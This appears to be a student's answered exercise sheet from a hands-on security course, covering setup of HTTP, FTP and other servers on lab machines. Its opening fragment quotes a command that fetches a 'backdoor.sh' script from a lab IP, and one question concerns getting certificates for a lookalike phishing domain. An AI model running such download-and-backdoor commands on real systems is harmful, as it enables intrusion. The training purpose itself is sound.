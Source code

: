 > Your answer : 95 wget http://10.88.56.53/backdoor.sh and the following lines

[Next](./Protocols_and_Servers.md)




## 5. Protocols and Servers

#### Pitch
Overview of server and internet protocols.

#### Goals
1. HTTP/HTTPS
    - Configure a virtual host
    - Deploy a one pager 
2. SSH 
    - Configure key-based authentication
3. SMB
    - Provide network shares to specific clients
4. TELENET
    - Install and configuration
5. FTP
    - Install and configuration



#### Exercices
> Connect to the virtual machine 10.12.181.X with the following credentials:  
> * ip : 10.12.181.X  
> * user : student  
> * password : student  

1.  On your kali (or other) , install ``ngnix`` to have an http server on port 8080. Replace the default page of ngnix by an html page displaying a hello world.
    > No answer required

1. What other well-known service could be used instead of nginx? 
    > Your answer : python, apache2

1. On your student machine, create a temporary http server with python, on port ``5000``. Then on your kali machine, open a browser and go to the address ``10.12.181.X:``.
    > Your command : python -m http.server 5000

1. Let's imagine that a hacker owns the domain name ``g00gle.com``, which tool would allow him to obtain an ssl certificate (https) very easily?
    > Your answer : Let's Encrypt

1. On a linux machine, what tool could you use to have a self-signed SSL certificate on your local machine (localhost) ? 
    > Your answer : openssl

1. On your student machine, install the ftp service and connect from your kali machine.
    > No answer required

1. What is the default port for ftp? 
    > Your answer : 21
